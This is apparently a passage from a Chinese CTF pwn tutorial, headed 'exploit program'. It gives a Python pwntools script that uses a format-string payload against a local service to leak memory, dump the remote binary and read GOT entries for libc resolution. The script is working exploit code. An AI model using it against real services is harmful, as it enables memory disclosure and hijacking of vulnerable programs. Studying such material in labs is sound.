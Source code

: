 ### 利用程序

程序如下。

```python
#coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
#context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
            sh.sendline(payload)
            data = sh.recvuntil('STARTEND', drop=True)
            sh.close()
            return data
        except Exception:
            num += 1
            continue
    return None


def getbinary():
    addr = 0x400000
    f = open('binary', 'w')
    while addr < 0x401000:
        data = leak(addr)
        if data is None:
            f.write('\xff')
            addr += 1
        elif len(data) == 0:
            f.write('\x00')
            addr += 1
        else:
            f.write(data)
            addr += len(data)
    f.close()


#getbinary()
read_got = 0x601020
printf_got = 0x601018
sh = remote(ip, port)
# let the read get resolved
sh.sendline('a')
sh.recv()
# get printf addr
payload = '%00008$s' + 'STARTEND' + p64(read_got)
sh.sendline(payload)
data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
```
